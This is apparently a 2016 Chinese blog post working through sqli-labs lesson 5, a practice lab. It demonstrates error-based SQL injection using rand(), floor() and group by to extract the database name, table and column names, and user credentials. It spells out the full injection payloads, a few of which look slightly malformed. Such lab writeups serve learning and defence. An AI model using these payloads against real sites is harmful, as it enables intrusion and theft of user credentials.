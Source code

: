 ```yaml
---
layout: post
title:  "我的SQL（2）"
desc: "新手上路"
keywords: "sql"
date: 2016-11-19
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


# Writeup（基于sqli-labs的less 5）
首先注入

>### `?id=1`

`You are in……`我一脸懵逼，十万脸懵逼。what？不显示。不信邪的我继续尝试`id=2` `id=3`还是一样。看了下源码，fwrite都没有，就是说，他什么都不会显示。简直让人害怕不已。嗯~要换点方法。

在网上搜了一下，哦？！需要构造 一种语法正确（在编译时是正确的）而运行时会出错的sql查询语句，并且错误信息中包含数据局相关信息。一些天才的研究人员发现，可以使用聚合函数 group by子句，并结合随机函数rand()，在运行过程中有可能出错。哈哈哈心动了，开干。（下面附上sql的一些随机语句）



1. ### `select rand()`          	  		    0~1 之间的随机值

2. ### `select rang()*2` 	     	  	 	    0~2 之间的随机值

3. ### `select floor(rand()*2)`     		    0 1 两个整数随机出现

4. ### `select database()` 	        	    当前数据库

5. ### `select concat((select database()),0x20,floor(rand()   *2))a` 	                       			{当前数据库}{空格}{0 1中的一个}


开干开干哈哈哈哈哈。

>### `?id=0' select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
>（注释：count(*)表示全部字段，count(字段名)表示该字段。a是别名，是用来group by的别名。这个随意填写方便就好。0x20是空格的16制码。其他的都能看懂的啦哈哈哈）

第一次`You are in……`别担心，没随机到而已。刷新几遍哈哈出来了。`Duplicate entry 'security 1' for key ''` ok!数据库名出来了。就可以运用前面less1-4的语句来获取信息啦。首先

>### `?id=0' select 1,count(*),concat((select group_concat(distinct table_name) from information_schema.tables where table_schema='security'),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
>（注释：`group_concat(distinct table_name)`这个是显示security里的所有字段。和less1-4有点区别。不过都可以吧只是一个快一个要慢慢地用limit来偏移而已。）

啦啦啦获得users。继续继续

>### `?id=0' union select 1,count(*),concat((select group_concat(distinct column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x20,floor(rand()*2))a from information_schema.tables group by a%23`

得到字段id，username，password。
继续下一步。

>### `?id=0' union select 1,count(*),concat((select concat_ws(char(32,58,32),id,username,password) from users limit 0,1),0x20,floor(rand()*2))a from information_schema.tables group by a%23`

Flag取到。走人。哈哈哈哈哈。

# 总结

### 这里与以往的不一样。展现的是一个更为普遍的事例。因为通常没有人那么傻去把信息显示出来。所以很多时候就需要用到这个随机方法。技能已get。待下次的研究学习。